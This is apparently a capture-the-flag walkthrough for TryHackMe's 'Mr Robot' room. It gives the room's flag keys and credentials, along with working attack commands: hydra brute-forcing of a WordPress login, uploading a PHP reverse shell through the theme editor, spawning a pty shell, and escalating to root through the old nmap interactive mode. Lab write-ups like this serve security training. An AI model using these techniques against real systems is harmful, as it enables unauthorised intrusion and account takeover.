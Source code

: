 Room: Mr Robot CTF

Link: https://tryhackme.com/room/mrrobot

MACHINE IP: 10.10.72.216
   
   NMAP SCAN RESULTS:
     
     22 CLOSED  SSH
     80 OPEN    HTTP
     443 OPEN   SSL/HTTP

 DIRECTORY SCAN RESULTS:
    
    ==> DIRECTORY: http://10.10.72.216/Image/                                                                                   
    ==> DIRECTORY: http://10.10.72.216/images/

#KEY 1
 Just a random guess to check out the robots.txt file and we found a key. 
  http://machine ip/robots.txt.
  
  Content of robot.txt file:
     
     User-agent: *
     fsocity.dic
     key-1-of-3.txt
  wget the files fsocity.dic and key file.
  Opening the key file we have here our key 1.
  KEY 1: 073403c8a58a1f80d943455fb30724b9


 Now let's hunt for key 2.

     wget http://10.10.72.216/fsocity.dic
     now we use command:  sort fsocity.dic | uniq > sorted.dic
     Sorting the list will make it easier for bruteforcing and take less time.

Running the bruforece on the login page via hydra and keeping the password constant so that we can find the username.
     
     hydra -L /home/ghost/tryhackme/mrrobot/fsocitydic -p test machine ip http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:Invalid Username" -t 30

 By bruteforce we find the username is: Elliot

Now, passwordd bruteforce

    hydra -l Elliot -P /home/ghost/tryhackme/mrrobot/fsocity.dic 10.10.173.126 http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:The password you entered for the username" -t 30

FINALLY GOT THE PASSWORD:  ER28-0652

After logging in via the credentials
go to archive.php in appereance section and
upload the reverse shell php script

GO TO THIS URL TO RUN THE SCRIPT:  
 http://10.10.164.231/wp-content/themes/twentyfifteen/archive.php
Then you will get a reverse shell on your terminal.

 After getting the reverse shell we move to home/robot
 content of robot directory:
    key-2-of-3.txt
    password.raw-md5

 We can't read the txt file
 Reading the contents of passwd file: robot:c3fcd3d76192e4007dfb496cca67e13b
 After cracking the hash we get: abcdefghijklmnopqrstuvwxyz

 Now try to access on robot user and switching to robot user we can not open terminal from /bin/sh –i

 For terminal access now using here python shell spawning script.
  python -c 'import pty; pty.spawn("/bin/bash")'
AFTER THIS: su robot
entering the password we got from decrypting md5 hash.

      We found KEY 2: 822c73956184f694993bede3eb39f959

Now looking for third no. of key,for that switching to root and for root will perform privilege escalation ,

For that figure out which programs have SUID (set owner user id upon execution) of 4000 , so here we run find command
  find / -perm /4000 -print 2>/dev/null
 Since nmap is given in question hint and it is running as root.
 Check the version of nmap 
    nmap --version (since it is very old in this machine it can be exploited)
  
  run nmap in interactive mode 
  nmap --interactive
  and then nmap> !sh 
  
  BAM! YOU GOT THE ROOT SHELL. 
  Go to the root directory and grab the key!
      
      Key 3: 04787ddef27c3dee1ee161b21670b4e4

